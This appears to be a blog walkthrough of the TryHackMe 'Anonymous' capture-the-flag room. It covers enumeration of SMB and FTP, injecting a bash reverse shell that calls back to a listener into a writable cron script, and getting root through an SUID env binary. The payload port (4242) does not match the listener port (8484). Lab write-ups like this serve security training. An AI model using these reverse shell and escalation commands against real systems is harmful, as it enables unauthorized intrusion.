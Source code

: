 ```yaml
---
title: "Anonymous Walkthrough"
date: 2025-05-25 00:00:00 +0800
categories: [Writeups, TryHackMe]
tags: [tryhackme,medium,ctf,smb,ftp]
image:
  path: https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png
  alt: Anonymous room logo
---
```


## Introduction

Room: [Anonymous](https://tryhackme.com/r/room/anonymous)<br>
Author: [Nameless0ne](https://tryhackme.com/r/p/Nameless0ne)<br>
Difficulty: <span style="color: #ef9c03"> **Medium** </span>

## Enumeration

### Port Scan
In this room, the IP for the machine is `10.10.166.189`. We will use `Nmap` to gather information of our target and identify open ports.

```bash
sudo nmap -sSV -T4 -A -Pn 10.10.166.189
```

Nmap scan shows `4` open ports. We also got information about what services and version those ports are and the OS and hostname of the machine. We now have the following information:

```bash
IP: 10.10.166.189
Hostname: anonymous
OS: Ubuntu

Ports:
21 - vsftpd 2.0.8 or later
22 - OpenSSH 7.6p1
139 - Samba smbd 3.X - 4.X
445 - Samba smbd 4.7.6-Ubuntu

Users
namelessone
```

![image.png](/assets/img/thm-anonymous/image.png)

### SMB Enumeration

Since we know that SMB is running on the machine, we can use Nmap to know what are the file shares available on the host.

Resource: <https://nmap.org/nsedoc/scripts/smb-enum-shares.html>

```bash
nmap --script smb-enum-shares.nse -p445 10.10.166.189
```

![image.png](/assets/img/thm-anonymous/image%201.png)

In the Nmap result, we see an interesting fileshare called `pics` . We can also see that `Anonymous` access is allowed for the share.

We can also use `SMBCLIENT` to enumerate file shares.

```bash
smbclient -L \\\\10.10.166.189\\
```

![image.png](/assets/img/thm-anonymous/image%202.png)

We can then access the file share as `Anonymous` using `SMBCLIENT`.

```bash
smbclient \\\\10.10.166.189\\pics -U anonymous --password anonymous
```

![image.png](/assets/img/thm-anonymous/image%203.png)

We have two interesting files, `corgo2.jpg` and `puppos.jpeg`. Unfortunately, there are no interesting information on those files using `exiftool`. Now let’s move on enumerating FTP.

### FTP Enumeration

We know from the Nmap scan that Anonymous access is enabled. Let’s try to access the FTP server.

```bash
ftp anonymous@10.10.166.189
```

Upon accessing the FTP server, we found three interesting files, `clean.sh`, `removed_file.log`, and `to_do.txt`. Also, notice that we have read/write/execute access to the `clean.sh` file.

![image.png](/assets/img/thm-anonymous/image%204.png)

Let’s download those files

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

![image.png](/assets/img/thm-anonymous/image%205.png)

Now let’s check out the contents of those files.

![image.png](/assets/img/thm-anonymous/image%206.png)

![image.png](/assets/img/thm-anonymous/image%207.png)

![image.png](/assets/img/thm-anonymous/image%208.png)

After reviewing the contents of the script file, it seems it is used as a scheduled task to delete the contents of the `/tmp/` directory and if there are no files to delete it will store the message to a log file. 

Remember that we have a write access to the `clean.sh` file. We can take advantage of this to manipulate the file to allow us to run a reverse shell.

We can utilize the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp for the reverse shell payload.) from Internal All The Things by swisskyrepo.

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

Create a netcat listener

```bash
nc -nvlp 8484
```

Modify the `clean.sh` file 

![image.png](/assets/img/thm-anonymous/image%209.png)

Upload `clean.sh` to the target and wait for it to run.  If successful, we should now have a shell.

![image.png](/assets/img/thm-anonymous/image%2010.png)

Nice! we got a shell and a user access.

### User Flag

Now let’s locate the user flag.

![image.png](/assets/img/thm-anonymous/image%2011.png)

<br>

## Privilege Escalation


### Enumeration

Upon doing some PrivEsc path enumeration, we found a way to escalate our access via `SUID`.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Searhcing through [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), we found out that we can escalate via SUID using `/usr/bin/env`

![image.png](/assets/img/thm-anonymous/image%2012.png)

![image.png](/assets/img/thm-anonymous/image%2013.png)

### Escalation via SUID

We then escalate our privileges using the following command.

```bash
env /bin/sh -p
```

![image.png](/assets/img/thm-anonymous/image%2014.png)

Alright! we are now `root`.

### Root Flag

Now let’s get the root flag.

![image.png](/assets/img/thm-anonymous/image%2015.png)


Thanks for reading my waklthrough, I hope you enjoyed it! 😊

![ThankYouThanksGIF.gif](/assets/img/thm-anonymous/ThankYouThanksGIF.gif)